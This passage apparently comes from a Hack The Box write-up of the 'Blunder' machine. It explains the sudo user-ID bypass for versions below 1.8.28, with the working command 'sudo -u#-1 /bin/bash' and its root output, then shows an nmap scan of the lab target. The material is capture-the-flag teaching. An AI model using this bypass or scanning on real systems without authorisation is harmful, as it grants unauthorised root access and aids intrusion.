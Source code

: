 * `sudo` allows for the specification of running commands as a specific user with the `-u` flag. 
* To exploit the above restriction on running commands as `root` **in versions of `sudo` &lt; 1.8.28**
  * Instead of specifying a username with the `-u` flag, use the user's ID number \(root is `#0` for example, but will not work since commands as root are disallowed in this case.\)
  * Specify an invalid number which overflows the integer buffer for the command. The easy way to do this is to use `#-1` since this is an unsigned integer and will flip the bits around to be Integer\_Max -1.  
  * You must know the current user's password to do this, since you are running a `sudo` command.
  * ```text
    $ sudo -u#-1 /bin/bash
    Password: 
    # id
    uid=0(root) gid=1001(olduser) groups=1001(olduser)
    ```

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.191`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/blunder$ nmap -p- -sC -sV -oN blunder 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-06 19:11 EDT
Nmap scan report for 10.10.10.191
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 379.53 seconds
```

There was not much to work with from my nmap scan as only port 80 was open.
